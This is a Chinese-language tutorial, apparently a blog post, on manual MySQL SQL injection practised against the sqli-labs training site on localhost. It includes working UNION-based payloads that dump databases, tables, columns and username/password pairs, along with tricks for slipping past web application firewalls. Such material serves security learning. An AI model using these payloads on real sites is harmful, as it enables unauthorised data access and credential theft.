

# 0x00 简介

在MySQL里面注入和搭建环境来其实差不多，推荐使用sqli-labs来练练手，网上一堆的方法也是我们从学以来用到的

加引号 报错 `and 1=1` `and 1=2` 然后SQLmap 一丢有waf就凉凉，可能and的时候就凉了，所以手工是也算个必修课吧。

直接用 `and 1=1`  一类的多属于 数字型注入 `select * from admin where id = $id;` 被包裹起来的就不行的，所以
一般要看报错的语句，当然也不是加个引号没报错就没了，具体分很多情况的。（废话多了点顺便讲清楚吧）


# 0x01 第一个注入

and 是一个逻辑符号 要求两边同时成立,所以and 这边是什么可以尽情发挥大家的才能 比如 and true=1 ？，为什么要这么写，因为某狗判断的就是 and 这边的字符类型
大家可以去了解了解 MySQL隐式转化。

```
mysql> select * from users where id = "1" and 1=1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)

mysql> select * from users where id = "1" and 1=2;
Empty set (0.00 sec)

```

说了这么多我们就拿sqli-labs的第一关来演示一下



看到报错语句

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

```


其中`''1'' LIMIT 0,1'` 最外层的是它出错给你的字符串不用看，所以为`'1'' LIMIT 0,1` 应为我们的单引号没闭合所以造成了出错 同时知道了 它的后面有个 `LIMIT 0,1` 所以反推大概的语句为 `select x,x from xxx where x='id' limit 0,1` 看到报错信息我们应该要能反推它的语句，有利于我们进一步注入，下面使用联合注入。


首先都是老套路 `order by xx ` 来判断它的列数，因为 `order by` 是根据列来排序的 （排序第几列）


```
http://127.0.0.1/sqli/Less-1/?id=-2' union select 1,schema_name,3 from information_schema.schemata limit 2,1 -- +

```

通过limit 0,1来控制前端的显位的数据(从第0条取一条) 如果是过滤逗号 。 想用分页可以使用 `1 offset 1` 意思是从第1条开始选一条当然还有join分页这些都在后面讲了。


```
http://127.0.0.1/sqli/Less-1/?id=-2' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' -- +
```

当然你想直接爆当前的库的表 不妨这样写 `table_schema=database()` 为了避免单引号你也可以使用hex后的数据 `table_schema=0x7365637572697479`

使用`group_concat()` 函数把表名都聚合起来，更加方便。


```
http://127.0.0.1/sqli/Less-1/?id=-2' union select 1,group_concat(column_name),3 from information_schema.columns where table_name=0x7573657273 -- +
```

爆出字段

```
http://127.0.0.1/sqli/Less-1/?id=-2' union select 1,group_concat(username,0x7C,password),3 from users-- +

```

爆出数据 在 `group_concat()` 被过滤的情况下我们可以使用其他的来替换 推荐大家查阅mysql 函数表


当我们使用 `information_schema.schemata` 时被拦截了,我们可以这样绕过

``` 

`information_schema`.`schemata `  
information_schema/**/.schemata
information_schema/*!*/.schemata
information_schema%0a.schemata

```

也有人遇到过这种情况 users表被拦截 怎么绕过呢，其实也一样

```
security.users 数据库名 加表名

security.`users`

```


# 0x02 文末

#### 本文如有错误，请及时提醒，避免误导他人

* author：404
